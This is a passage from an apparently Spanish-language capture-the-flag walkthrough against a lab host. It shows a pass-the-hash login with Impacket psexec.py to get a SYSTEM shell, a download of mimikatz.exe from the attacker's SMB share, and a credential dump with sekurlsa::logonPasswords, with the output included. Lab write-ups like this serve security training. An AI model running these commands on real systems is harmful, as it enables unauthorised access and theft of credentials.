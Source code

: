 ```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file whUEDSYi.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service MlrO on 10.10.10.63.....
[*] Starting service MlrO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Windows\Temp

C:\Windows\Temp> mkdir prives

C:\Windows\Temp> cd prives

C:\Windows\Temp\prives> copy \\10.10.14.12\parrotsec\mimikatz.exe mimikatz.exe
        1 file(s) copied.

C:\Windows\Temp\prives> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Windows\Temp\prives

07/04/2023  12:54 AM    <DIR>          .
07/04/2023  12:54 AM    <DIR>          ..
09/19/2022  05:44 PM         1,355,264 mimikatz.exe
               1 File(s)      1,355,264 bytes
               2 Dir(s)   2,427,297,792 bytes free

C:\Windows\Temp\prives>
```

- Ahora lo ejecutamos.

```bash
C:\Windows\Temp\prives> .\mimikatz.exe "sekurlsa::logonPasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 7/4/2023 12:09:01 AM
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
	* Username : (null)
	* Domain   : (null)
	* Password : (null)
```